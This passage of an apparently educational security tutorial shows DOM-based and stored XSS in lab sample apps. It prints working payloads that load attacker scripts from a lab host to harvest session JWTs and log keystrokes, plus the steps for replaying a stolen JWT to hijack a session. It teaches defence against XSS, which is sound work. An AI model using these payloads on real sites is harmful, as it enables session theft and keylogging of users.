 <img src="{{ site.baseurl }}/rsillem/assets/security-xss/sessions.PNG" style="display: block; margin: auto;"/>


Session hijack via DOM-based XSS
-----
**MEAN_Stack**

You can do a similar thing with the MEAN_stack sample, but the technicalities are different. Since Angular gets to work after the DOM is ready, any script tags added into the body wouldn't be executed. However, this doesn't necessarily mean that all XSS has been thwarted. HTML elements have `on` attributes that execute JavaScript on a certain event. Let's craft some code that executes straight away, without the need for a script tag:

    <img src="///" onerror="alert('hello')" />

Angular is explicitly trusting the search term is safe (even though it's not safe), and binding it as-is. Normally, Angular wouldn't trust this, but it's been enabled for demonstration purposes (or you could buy the fiction that a foolish developer did it on purpose so that users could put styling tags in their posts). Now, loading in a script here is more of an ask here, but it's doable in a couple of ways:

* Perform an XMLHttpRequest, and evaluate the response; or
* Create a script element, set its source to the target URL, and append it to the `<head>` tag

The latter is easier for our purposes, so let's just do that:

    <img src="///" onerror="a = document.createElement('script'); a.src = 'http://10.10.10.30/exploits/jwt.js'; document.head.appendChild(a);" />

To hijack the session, put your attacker hat on, start the app in another browser window, open up a console and enter in,

    localStorage["ls.currentUser"] = JSON.stringify( your harvested JWT )

then refresh. That's another session hijack successfully executed.

<img src="{{ site.baseurl }}/rsillem/assets/security-xss/sessions2.PNG" style="display: block; margin: auto;"/>


Insert a keylogger via Stored XSS
-----
Let's have a look at an example of Stored XSS -- where the dangerous text is stored within the system itself. Open up the Jade example and log in. Try to create a post using some HTML (`<strong>This is bold</strong>`). It should go through fine - it's stored on the server and everyone can load this and see it. Try and make the post as ugly as possible (`<strong style="background-color: hotpink;">What a disaster</strong>`). It may assault your eyes, but isn't actually *harmful* in terms of data security.

But, what would happen if we placed a `<script>` tag in? Since it's loaded in with the rest of the page, the browser should run it just fine. Give it a try with something simple like `<script>console.log("XSS")</script>`. Again, it should go through just fine. Only this time, your code is being run every time the page is loaded, regardless of if you're signed in, or on different browsers or if the user hasn't visited the site until now. Enter in the post:

    Wow what a cool site! <script src="//10.10.10.30/exploits/keylog.js"></script>

It looks like a fairly bland and spammy post, but behind the scenes, the script tag is loaded and the attacker's script is run. Type a few characters, and fire up Dev Tools and the console should show what you've been typing. Now, open up the attacker's site and you'll see that as you type, your keystrokes are being sent to the attacker's site and are updating in real-time. **Everyone** who visits the page is vulnerable. If you've played with BeEF (see above) you may also have come across its Man-In-The-Browser command, which illustrates the fact that this keylogger attack could potentially be extended beyond the confines of the Posts page and into the Login page. Again, we're not going to do that here - we're interested in defending against the XSS vulnerability that opens the door to these attacks.
